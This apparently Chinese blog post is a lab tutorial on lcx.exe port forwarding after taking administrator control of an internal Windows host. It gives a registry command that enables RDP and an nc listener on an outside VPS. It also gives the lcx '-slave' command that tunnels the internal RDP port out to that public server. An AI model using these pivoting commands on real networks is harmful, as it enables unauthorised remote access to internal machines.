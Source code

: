       .post a {
        color: #28A1C5;
      }
    </style>
  </head>
  <body>
    <div class="container">
      <div class="post">
        <h1 class="title">lcx内网端口转发</h1>
        <div class="show-content">
          <p>参考：<a href="http://wooyun.jozxing.cc/static/drops/tools-15000.html" target="_blank">内网转发</a></p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-d029c7f3104a0a70.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-d029c7f3104a0a70.PNG?imageMogr2/auto-orient/strip" data-image-slug="d029c7f3104a0a70" data-width="616" data-height="522"><br><div class="image-caption"></div>
</div><p>lcx的使用：当拿到一个处于内网主机的管理员权限，打开它的3389端口，映射到外网某公网IP的地址上。</p><p>这样，我们操作外网机子，就相当于操作内网主机，很方便。</p><hr><p>试验下：windowsxp 假设它是内网主机（使用host-only模式），它没有公网IP，它的内网IP是 192.168.57.129（网关192.168.60.100）</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-9deeb98499fd4fd6.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-9deeb98499fd4fd6.PNG?imageMogr2/auto-orient/strip" data-image-slug="9deeb98499fd4fd6" data-width="561" data-height="230"><br><div class="image-caption"></div>
</div><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-4c442de2034eeb77.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-4c442de2034eeb77.PNG?imageMogr2/auto-orient/strip" data-image-slug="4c442de2034eeb77" data-width="571" data-height="280"><br><div class="image-caption">网络拓扑图<br>
</div>
</div><p>内网主机开启3389端口：</p><p>REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f</p><hr><p>查看VPS（是购买的国外的服务器）可以用来监听的端口，选择一个<b>没有使用的</b>端口，比如9977。</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-42c125389fdf5a6f.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-42c125389fdf5a6f.PNG?imageMogr2/auto-orient/strip" data-image-slug="42c125389fdf5a6f" data-width="998" data-height="634"><br><div class="image-caption"></div>
</div><p>外网主机，安装netcat</p><p>apt-get -y install nc</p><p>nc -l -p 9977 （在9977端口监听）</p><hr><p>在内网主机上，命令“lcx.exe -slave 104.xx.xx.xx 9977 192.168.60.130 3389 ”</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-eb54986181dceea0.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-eb54986181dceea0.PNG?imageMogr2/auto-orient/strip" data-image-slug="eb54986181dceea0" data-width="680" data-height="182"><br><div class="image-caption"></div>
</div><p>乱码是因为winxp是英文版系统，所以中文就乱码了。make a connection…… 说明连接成功了。</p><hr><p><br></p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-a3c6c4afa0a7daf0.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-a3c6c4afa0a7daf0.PNG?imageMogr2/auto-orient/strip" data-image-slug="a3c6c4afa0a7daf0" data-width="668" data-height="246"><br><div class="image-caption">、</div>
</div><h1>总结：</h1><p>lcx.exe -lister 外网端口 内网端口           （在本地主机执行，用nc监听端口也可以）</p><p>lcx.exe -slave 104.xx.xx.xx 9977 192.168.60.130 3389   （在目标主机上执行，转发端口）</p>
lcx.exe端口转发原理: https://tieba.baidu.com/p/3106571193?red_tag=0064785128
        </div>
      </div>
    </div>
  </body>
</html>
